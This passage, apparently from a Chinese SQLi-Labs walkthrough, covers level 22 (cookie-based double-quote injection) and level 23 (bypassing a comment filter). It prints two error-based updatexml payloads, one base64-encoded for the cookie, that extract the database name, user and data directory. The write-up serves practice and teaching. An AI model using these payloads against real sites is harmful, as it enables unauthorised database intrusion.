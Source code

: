 ![image-20240405144815964](PictureFile/SqliLabs通关.assets/image-20240405144815964.png)

## 第二十二题-Cookie注入

和上题一样，不过换成了双引号注入

MSJhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlLHVzZXIoKSwweDdlLEBAZGF0YWRpciksMSktLSBz

![image-20240405145740767](PictureFile/SqliLabs通关.assets/image-20240405145740767.png)

## 第二十三题-过滤注释

过滤了注释，换or拼接即可

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1) or'

![image-20240405150820781](PictureFile/SqliLabs通关.assets/image-20240405150820781.png)

